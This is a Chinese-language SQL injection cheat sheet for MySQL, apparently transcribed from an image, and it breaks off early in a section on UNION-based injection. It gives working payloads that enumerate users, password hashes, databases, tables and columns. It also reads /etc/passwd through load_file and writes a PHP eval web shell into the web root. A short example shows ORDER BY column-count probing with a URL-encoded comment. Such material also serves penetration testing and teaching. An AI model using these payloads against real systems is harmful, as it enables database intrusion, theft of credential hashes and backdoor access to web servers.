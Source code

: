 # SQL注入备忘录

# 1 MySQL

## 1.1 常用信息及语句

**当前用户：`user()`**
**数据库版本：`version()`**
**数据库名: `database()`**
**操作系统：`@@version_compile_os`**

**所有用户：**

**`select group_concat(user) from mysql.user`**

**用户hash：**

**`select group_concat(password) from mysql.user where user='root'`**

**所有数据库：**

**`SELECT group_concat(schema_name) from information_schema.schemata`**

**表名：**

**`SELECT group_concat(table_name) from information_schema.tables where table_schema='库名'`**

**//表中有主码约束，非空约束等完整性约束条件的才能用这个语句查询出来**

**`SELECT group_concat(table_name) from information_schema.table_constraints where table_schema='库名'`**

**字段名：**

**`SELECT group_concat(column_name) from information_schema.columns where table_name='表名'`**

**读文件：**

**`SELECT load_file('/etc/passwd')`**

**写文件：**

**`SELECT '<?php @eval($_POST[1]);?>' into outfile '/var/www/html/shell.php'`**

## 1.2 UNION注入

### 1.2.1 猜字段长度

**`order by num`**

**Example：`id=1 order by 2` 页面正常，`id=3 order by 6`页面错误，那么字段就是2**
**字符型的话需要注释后面的引号，Example：**
**`id=1' order by 2%23`**

### 1.2.2 暴字段位置
